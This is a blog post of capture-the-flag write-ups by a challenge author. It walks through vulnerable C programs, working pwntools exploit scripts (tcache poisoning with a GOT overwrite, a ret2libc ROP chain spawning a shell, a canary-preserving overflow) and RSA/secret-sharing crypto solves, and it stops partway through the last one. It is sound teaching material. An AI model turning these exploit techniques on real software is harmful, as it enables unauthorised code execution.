wrenches.online
nyp
i authored 10 challenges for nypctf hosted in june25. i think overall my challenges were a lot harder than they had any right to be for a beginner ctf (despite me purposefully nerfing them - i have been informed i have zero frame of reference for what beginners are actually capable of), so i am just grateful some of my work got solved.
the song for today is tosenbo by wowaka.
liar-dancer
i must preface this w the information that i simply am not a pwner and had to learn heap basics two days before the ctf as no one had written any pwn. thank you to my senseis fern and ndg for very graciously teaching me about, in their own words, 'the easiest heap concept', tcache poisoning.
// gcc chal.c -no-pie -o chal
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#define MAX_DANCES 16
#define DANCE_SIZE 256
char *dances[MAX_DANCES];
void win() {
printf("PEARTO IS PLEASED\n");
system("cat flag.txt");
exit(0);
}
void create_dance() {
int index;
printf("WHERE IS TETO DANCING? (0 to %d) > ", MAX_DANCES - 1);
scanf("%d", &index);
getchar(); // Consume the newline character
if (index < 0 || index >= MAX_DANCES) {
printf("WE CAN'T DANCE HERE.\n");
return;
}
dances[index] = (char *)malloc(DANCE_SIZE * sizeof(char));
printf("DESCRIBE TETO'S DANCE (max %d characters) > ", DANCE_SIZE - 1);
fgets(dances[index], DANCE_SIZE, stdin);
dances[index][strcspn(dances[index], "\n")] = 0;
printf("TETO IS NOW DANCING AT POSITION %d AT %p.\n", index, dances[index]);
}
void delete_dance() {
int index;
printf("WHICH DANCE MUST GO? (0 to %d) > ", MAX_DANCES - 1);
scanf("%d", &index);
if (index < 0 || index >= MAX_DANCES || dances[index] == NULL) {
printf("THERE IS NO DANCE HERE.\n");
return;
}
free(dances[index]);
printf("NOW THE DANCE AT %d IS GONE.\n", index);
}
void edit_dance() {
int index;
printf("ENTER THE DANCE YOU WOULD LIKE MODIFIED > ", MAX_DANCES - 1);
scanf("%d", &index);
getchar(); // Consume the newline character
if (index < 0 || index >= MAX_DANCES || dances[index] == NULL) {
printf("THERE IS NO DANCE HERE.\n");
return;
}
printf("DESCRIBE YOUR NEW DANCE. (max %d characters) > ", DANCE_SIZE - 1);
fgets(dances[index], DANCE_SIZE, stdin);
dances[index][strcspn(dances[index], "\n")] = 0; // Remove newline character
printf("TETO IS NOW DANCING A NEW DANCE AT %d.\n", index);
}
int main() {
int choice;
setvbuf(stdout, NULL, _IONBF, 0);
setvbuf(stdin, NULL, _IONBF, 0);
setvbuf(stderr, NULL, _IONBF, 0);
while (1) {
printf("-------\nLIAR DANCER\n-------\n");
printf("1. CREATE DANCE\n");
printf("2. DELETE DANCE\n");
printf("3. EDIT DANCE\n");
printf("4. QUIT\n\n");
printf("TETOTETOTETO > ");
scanf("%d", &choice);
switch (choice) {
case 1:
create_dance();
break;
case 2:
delete_dance();
break;
case 3:
edit_dance();
break;
case 4:
return 0;
default:
printf("LIAR!!!\n");
exit(0);
}
}
return 0;
}
by the very nature of pwn a beginner-friendly writeup is kind of impossible because it demands knowledge of memory allocation and the basic structure and interior mechanism of a compiled binary. i cannot offer to teach such foundational information, this is kind of just something you have to learn on your own time. but in very loose terms, we can mark out spaces of memory for the program to use with malloc(), we can stop using those spaces whenever we want with free(), and the underlying structure and behavior of chunks of memory that are provided by these functions is so thorny and prone to error that an entire industry has emerged from exploiting them. here we will dip our toes in that scary world, if only for a moment.
so here is our heap challenge. we are able to malloc() and free() chunks of 0x256 bytes. note the complete lack of checks as to whether or not our pointers in dances have already been freed / malloc'd, meaning if we create a chunk at index 0 then free that chunk, we can still access it with edit_dance().
this is very common use-after-free nonsense. the important thing we want to do here is get malloc() to allocate some memory wherever we want. this is important because we can write and edit our malloc()'d chunks, and being able to write to wherever location in memory is very powerful. we will discuss the things that can be done with that arbitrary write later. but take my word for it that it will get us our flag eventually.
to grossly oversimplify, the chunks allocated by malloc() have a certain piece of metadata in them known as the fd pointer. this fd pointer dictates where the next malloc will occur, and it is located in the chunk itself. recall that we can write to chunks, and therefore, we can actually overwrite this fd pointer with our uaf.
we can therefore corrupt this pointer to whatever address in memory we want by simply writing to the freed chunk, then malloc() twice - once to malloc a chunk that has our corrupted pointer, and twice to actually get that chunk at our address. we do this by malloc()ing twice, free()ing twice, and then editing our freed chunk with the fd pointer that we want.

above is a visualisation of the heap after we malloc and free twice. note that the fd pointer is now pointing to the chunk at 0x4052a0. now, we can write to that chunk, and edit the fd pointer. i'll corrupt the fd pointer such that it becomes all 'A's.

the fd pointer is now 0x41414141, meaning we have corrupted it successfully.
ok but what pointer do we want? notice that we have a win() func, and we would like this function to be executed. we can simply overwrite the area of memory that stores function pointers called the GOT - we pick a function that we want to ovewrwrite, let's say getchar(). we find where the pointer to this function is located in memory, and we overwrite it with our win() function.
then, we malloc twice more. once to get our chunk to actually use this corrupted fd pointer, and the second for malloc to get tricked into using our fd pointer. after that, we're all set! the full solve script is attached for reference below. note that i skipped over some details, such as pointer mangling and picking a good function to overwrite in GOT, but a. i don't feel like it and b. it's beyond the scope of this writeup.
from pwn import *
#context.log_level = "DEBUG"
context.binary = elf = ELF("./chal")
p = remote("chall.nypinfosec.net", 8004)
def sl(inp):
p.sendline(inp.encode())
z = p.recvuntil(b">").decode()
print(z)
return z
print(p.recvuntil(b">").decode())
sl('1')
sl('0')
key = (int(sl('liardancer').split('.')[0].split(' ')[-1], 16) >> 12) # just parsing the output to get our heap base. the fd pointers are mangled by xoring w this key, which is y we need to recover it
print(f'key: {hex(key)}')
sl('1')
sl('1')
# we malloc two chunks to populate the tcache bin
sl('liardancer')
sl('2')
sl('0')
sl('2')
sl('1')
# we free twice
got_addr = p64(elf.got["getchar"] ^ key)
print(f'{got_addr=}')
print(f'{elf.got['getchar']=}')
with open('payload.bin', 'wb') as p:
p.write(got_addr)
p.close()
sl('3')
sl('1')
# this writes our got address to fd in our freed chunk
# when we malloc once again, it will fit into this chunk
# when we malloc a second time, it will refer to our poisoned fd pointer (which we point to got)
# so now we can arbitrarily write to the got
p.sendline(got_addr)
print(p.recvuntil(b'>').decode())
sl('1')
sl('0')
sl('liar')
sl('1')
sl('1')
# we overwrite a func in got (getchar) with our win func. next time getchar is executed win() will exec instead
win_addr = p64(elf.sym["win"])
p.sendline(win_addr)
p.interactive()
#fuck my life this is somehow supposed to be beginner pwn and it took me no joke 3 hours
#i dont get pwn
spacewalk
whew, no more heap. normal stack stuff now.
// gcc -o chal chal.c -fno-stack-protector -Wl,-z,relro,-z,now -pie
#include <stdio.h>
#include <string.h>
int main() {
setbuf(stdin, NULL);
setbuf(stdout, NULL);
char buf[32];
printf("we're spacewalking over at %p\n", printf);
puts("where are we headed next? >");
scanf("%s", buf);
return 0;
}this binary has full protections excluding a canary, and we are given a leak of the printf() function alongside a very obvious buffer overflow. now is the time to teach the complete basics of ROP, return-oriented programming. for now let's just see what happens when we do the classic skiddie trick of spamming 'A's:

we see that we have managed to overwrite our registers $rsp and $rbp. the first one, $rsp, is the address that the function that will return to after execution is done. we have overwritten it into a garbage address that the binary cannot handle, and it crashes.
now we require more precision - at what offset is $rsp actually located? meaning, how many bytes do we need to write exactly so that we overwrite $rsp? let's pop it open in gdb:



going over the math in our head, this checks out - 32 bytes of buffer, $rbp occupies 8 bytes, and then our $rsp. 40 bytes total.
the goal of ROP (or more specifically, ret2libc in this case) is to overwrite this return address into a piece of code that is in memory somewhere that will give us a shell. the way we do this is by finding gadgets that we can execute, small pieces of code that will combine together. the central component of such shellcode is as follows: the address to system(), and a way to pass /bin/sh as our parameters into the call to system().

so the plan is simple: find these gadgets in the executable's memory, and then craft a payload that will execute our ROP chain one by one. we will be able to find these gadgets in the provided libc.so.6, which is the file for the C standard library that most executables are compiled with. the gadgets that we need specifically are a pop rdi ; ret ; gadget, as rdi is the register where the argument to system() is stored, a pointer to the string /bin/sh in memory, and a final single ret to return our system() call.

but wait! there's PIE (position independent executable). this means that the offsets to libc are always randomised per each run of the program, and are not static in the binary. we can't just pull addresses from the provided libc and automatically expect them to work - we need to know where libc is located in the binary at each run. this is called a 'libc' leak, and other harder pwn challenges will require you to leak an address to a function pointer with a clever exploit but here we are given one directly by way of printing the printf pointer.
a few steps are required here. we need to run the program locally, find our libc base, and then find where printf is located in libc. despite PIE, the offset between printf and the first address in libc is always constant (the offsets are the same for any function, for that matter, which is why ROP works). the libc address is the topleft most address with 'libc' in the nam in vmmap.
>>> hex(0x7ffff7e26440-0x00007ffff7dcc000)
'0x5a440'
with this offset, we can now calculate the libc base, and following that, we can now find all of our rop gadgets in memory. the other pointers can be found with pwntools, as demonstrated in the solvescript below.

from pwn import *
printf_offset = 0x5a440
ret_offset = 0x0006E974
pop_rdi_offset = 0x001064DD
libc = ELF('./libc.so.6')
elf = ELF('./chal')
p = remote('chall.nypinfosec.net', 8006)
printf_leak = int(p.recvline().split(b' ')[-1][:-1].decode(), 16)
print(f'leaked printf at {hex(printf_leak)}')
libc.address = printf_leak - libc.sym["printf"]
payload = b'A' * 40
payload += p64(libc.address + ret_offset)
payload += p64(libc.address + pop_rdi_offset)
payload += p64(next(libc.search("/bin/sh")))
payload += p64(libc.sym["system"])
payload += p64(libc.sym["exit"])
print(payload)
print(p.recvline())
p.sendline(payload)
p.interactive()
mikumaze
this is probably the easiest pwn of the set. for now we can honestly ignore all the scary ncurses nonsense and focus on the buffer overflow present in name. 32 bits of buffer, 64 bits of mikuprotect, and then our maze.
// gcc chal.c -o chal -lncurses -g
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <ncurses.h>
#define WIDTH 12
#define HEIGHT 8
int main() {
char mikumaze[256];
char mikuprotect[64];
char name[32];
strcpy(mikumaze,
"############t"
"#.#.#..#...#t"
"#.#.####.#.#t"
"#.#......#.#t"
"#.########.#t"
"#.#......#.#t"
"#...####.#.#t"
"############t");
strcpy(mikuprotect, "初音ミク初音ミク初音ミク初音ミク");
printf("miku wants to know your name > ");
scanf("%s", name);
printf("%s\n", mikuprotect);
if (strcmp(mikuprotect, "初音ミク初音ミク初音ミク初音ミク")) {
printf("miku detected you smashing the stack!");
exit(0);
}
char maze[HEIGHT][WIDTH + 1];
// main ncurses
int row = 0;
int col = 0;
for (int i = 0; i < strlen(mikumaze); i++) {
if (mikumaze[i] != 't' && mikumaze[i] != '#' && mikumaze[i] != '.') {
printf("hmm something's wrong with miku's maze...");
return 0;
}
if (mikumaze[i] == 't') {
maze[row][col] = '\0';
row++;
col = 0;
} else {
maze[row][col++] = mikumaze[i];
}
}
initscr();
noecho();
cbreak();
keypad(stdscr, TRUE);
curs_set(0);
int mikux = 1, mikuy = HEIGHT-2;
while (1) {
clear();
for (int y = 0; y < HEIGHT; y++) {
for (int x = 0; x < WIDTH; x++) {
if (x == mikux && y == mikuy)
mvaddch(y, x, '@');
else
mvaddch(y, x, maze[y][x]);
}
}
if (mikux == WIDTH-1 && mikuy == 1) {
FILE *fptr;
fptr = fopen("flag.txt", "r");
char flag[100];
fgets(flag, 100, fptr);
mvprintw(HEIGHT, 0, "You solved the mikumaze!");
mvprintw(HEIGHT+1, 0, flag);
refresh();
getch();
break;
}
refresh();
int ch = getch();
int new_mikux = mikux;
int new_mikuy = mikuy;
if (ch == KEY_UP) new_mikuy--;
else if (ch == KEY_DOWN) new_mikuy++;
else if (ch == KEY_LEFT) new_mikux--;
else if (ch == KEY_RIGHT) new_mikux++;
else if (ch == 'q') break;
if (new_mikux >= 0 && new_mikux < WIDTH && new_mikuy >= 0 && new_mikuy < HEIGHT) {
if (maze[new_mikuy][new_mikux] == '.')
mikux = new_mikux, mikuy = new_mikuy;
}
}
printf("end");
return 0;
}
we get the flag by going to the top right corner of the maze, but it is currently unsolvable as is. the intended exploit here is to take advantage of the buffer overflow getting scanf()'d into name, and overwrite the maze in memory such that it becomes solvable.
however we cannot just anyhow overwrite by spamming 'A's due to the presence of mikuprotect - my intent with this challenge was to introduce a basic protection known as the stack canary, which is a randomised value placed on the stack that the program checks every now and then. if the program detects that the canary has been corrupted, it exits out of the program to prevent any other damage from occurring.

miku gets very angry at us if we corrupt the values on the stack, but actually, since we know what the canary is (it's always the same per program execution), we can just modify our buffer overflow to overwrite the canary with itself.for my sake when debugging the binary i'm going to patch out all the ncurses bullshit, which is impossible to deal with in gdb (and was also very difficult to get up on the infra side due to the infinite issues with pseudoterminal nonsense i don't fully understand).
anyways the payload ends up being quite simple. note that we need to add a null terminator after our canary due to strcmp - recall that all strings are null terminated in C, and strcmp stops reading from the buffer once it encounters our \x00 byte.
buffer = b'A' * 32
miku_bytes = "初音ミク初音ミク初音ミク初音ミク".encode("utf-8")
padding = b'\x00' * (64 - len(miku_bytes))
maze = b'.' * 256
payload = buffer + miku_bytes + padding + maze
with open('payload.bin', 'wb') as file:
file.write(payload)
this manual payload saving + copying is kind of baroque but it is easier than having to deal with pwntools + ncurses nonsense. also thank you weifeng for the script because i have lost mine. once we paste this in (using a clipboard tool that can support nullterms nicely)...


cathode-ray-tube & constant-reactor-termination
at this point in the writeup i am relieved because i finally get to talk about something i'm confident in my knowledge about, cryptography, and i don't need to waffle about libc offsets. i wrote two unsolved cryptography challenges both centered around the Chinese remainder theorem (CRT), hence the names. the following assumes basic knowledge of modular arithmetic.
CRT is the idea that given the following equations, knowledge of all given k_i, m_i, but with a secret N:
N == k_1 mod m_1
N == k_2 mod m_2
...
N == k_i mod m_i
we can recover N mod (m_1 * m_2 * m_3 * ... * m_i). the details of the algorithm used to derive it are irrelevant for now, we can just treat CRT as a black box that returns the value of N that we need. note that the ultimate goal most of the time is to recover N in its entirety, and this is typically only accomplishable if we have enough m_i such that (m_1 * m_2 * m_3 * ... * m_i) is greater than N.
from secret import flag
from Crypto.Util.number import getPrime, bytes_to_long
N = 1
pt = bytes_to_long(flag)
assert pt.bit_length() == 647
for i in range(20):
N *= getPrime(32)
for i in range(5):
N *= getPrime(512)
ct = pow(pt, 0x10001, N)
print(f'{ct = }')
print(f'{N = }')
the above is the code for cathode. this is a very nonstandard RSA formulation with N composed of 20 small 32-bit primes, and 5 512-bit ones. the typical threshold of factorisability on normal computers within 10 minutes is somewhere around 32-64 bits, so we can actually fully retrieve all 20 32-bit primes used. the 512-bit primes are not able to be retrieved.
now let's talk about RSA as it is implemented usually, with two large primes that are mostly equal in size. i find it best to think of modular exponentiation over a non-prime N as the 'combination' of exponentiation over its two factors: simply put, if you want to calculate a ** e mod N, and N = p * q, you are essentially calculating a ** e mod p and a ** e mod q and then "combining" the two results from these calculations. i am stopping myself from using the word subgroup or group because a. i have no actual background in group theory, i'm just a dumb fucker who's done this too much, and b. it would scare beginners off.
but for the ball-knowers out there essentially multiplication over some prime p is a cyclic group with order p-1, meaning that a * a * a ... * a (p-1 times) is always going to result in some number pn + 1, or in other words, a**(p-1) mod p == 1. those of you who watched numberphile videos in your youth might recognise this as fermat's little theorem. this is a concept that is completely not taught in (normal) schools over here so allow yourself a bit of grace if none of this makes any fucking sense.
so how does RSA decryption actually work? let's consider the following:
pt ** (p-1) == 1 mod p
pt ** (1 mod p-1) == pt mod p
-------
pt ** e == ct mod p
think of this as walking in a circle every (p-1) steps. when we walk in our circle K * (p-1) steps for any K, we return back to our value of 1. then, another step will multiply our original plaintext by 1, resulting in just giving us the plaintext. therefore we just need to find some number d where e * d == 1 mod (p-1). this is known as the modular multiplicative inverse of e with respect to te modulus p - 1.
pt ** (p-1) == 1 mod p
pt ** (1 mod p-1) == pt mod p
-------
pt ** e == ct mod p
pt ** (e * d) == pt mod p, where (e * d) == 1 mod (p-1).
modular multiplicative inverses are easy to calculate, python has them builtin with pow(e, -1, p-1). so that settles our decryption. anyways, to recap, our understanding of RSA decryption is that it is essentially the 'undoing' of this cyclic operation by going through the loop exactly a few times, and then just going one more step to return to our starting point. recall that in standard RSA, our N is the product of two different primes p, q, and thus the decryption occurs over the two subgroups with order p-1, q-1. the difficulty of RSA decryption relies in the fact that we cannot easily recover these primes because factorisation is hard and scary. however, what happens when N is made up of a lot of different small factors which we can recover?
ct ** d_k1 == pt mod k1
ct ** d_k2 == pt mod k2
ct ** d_k3 == pt mod k3
...
ct ** d_k20 == pt mod k20
where d_ki == pow(e, -1, ki-1)
with the knowledge of our small factors we are able to invert pt mod many different values of k. we can now apply our trusty CRT algo to further recover pt mod the product of all of these k values, and therefore get our flag. right?
the problem is that pt is still greater than the product of those values (henceforth termed K)! pt is 647 bits, and the product of 20 32-bit primes would naturally only be 640 bits. we're missing 7 whole bits of info. the good thing is that 7 bits of brute force is entirely feasible for any computer made before the 1960s so as long as we don't have an ENIAC or something we're good. but how exactly do we recover the missing bits? remember the following:
a == b mod n
is just equivalent to the equation
a = b + nx for some value x
by definition, our predicted value of x has to be at least 7 bits to make up for the missing difference. so, we just have to keep trying different values of x, incrementing every time, until we hit our flag. the source code below shows us how we do that.
from sympy.ntheory.modular import crt
from Crypto.Util.number import long_to_bytes as ltb
factors = [2249543951,2401983659,2403929377,2524683377,2538133879,2661823973,2862322829,3160654661,3215347301,3381074293,3420765949,3427181519,3432420917,3447786239,3516649061,3769183091,3794381879,3995881397,4107899623,4257964903]
ct = # redacted for brevity
crt_vals = []
for i in factors:
d = pow(0x10001, -1, i-1)
crt_vals.append(pow(ct, d, i))
small_crt_soln, add_val = crt(factors, crt_vals)
new_pt = small_crt_soln
print(small_crt_soln, add_val)
print(small_crt_soln.bit_length())
for i in range(1, 2**16):
new_pt += add_val
if b'NYP' in ltb(new_pt):
print(ltb(new_pt))
running this code, we get our flag. anyways now onto constant-reactor-termination, which is actually much easier to explain:
import random
from sympy import isprime
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from secret import flag
import os
secret = random.getrandbits(256)
polynomial = [secret] + [random.getrandbits(256) for i in range(512)] # 512-degree polynomial
def compute_polynomial(x):
result = 0
for i in range(len(polynomial)):
result += polynomial[i] * x ** i
return result
output = open('values', 'w')
for i in range(1, 400):
output.write(f'F({i}) = {compute_polynomial(i)}\n')
iv = os.urandom(16)
key = secret.to_bytes(32, byteorder='big')
cipher = AES.new(key, AES.MODE_CBC, iv)
enc = cipher.encrypt(pad(flag, AES.block_size))
print(f'{enc.hex() = }, {iv.hex() = }')
print(f'{secret = }')
this is a formulation of Shamir's Secret Sharing. i'm going to briefly explain what this is, but knowledge of this concept is not necessary to solve the challenge. SSS is a construct where you can only recover a certain secret given enough shares held by different people. it's formulated as a polynomial, where our secret is the constant term, meaning that for some f(x) = ax**n, bx**n-1 + ... + k, our secret is k.
the way SSS ordinarily works relies on the fact that you can only uniquely reconstruct a polynomial if you have n+1 points of it, where n is the degree. think of it this way: if you have 2 points on the Cartesian plane, you can uniquely recover the single line that must go through those two points, and there is no other possible line that can go through them. if you have 3, you can recover a parabola, with 4, a cubic, so on. this is a process known as Lagrange interpolation, a method i myself don't really understand.
so in our problem formulation we have a 512 degree polynomial (yikes, big fuckass polynomial) and 400 points. we evidently don't have enough points to go about it the usual way, so what's the trick?
f(x) mod x == k mod x
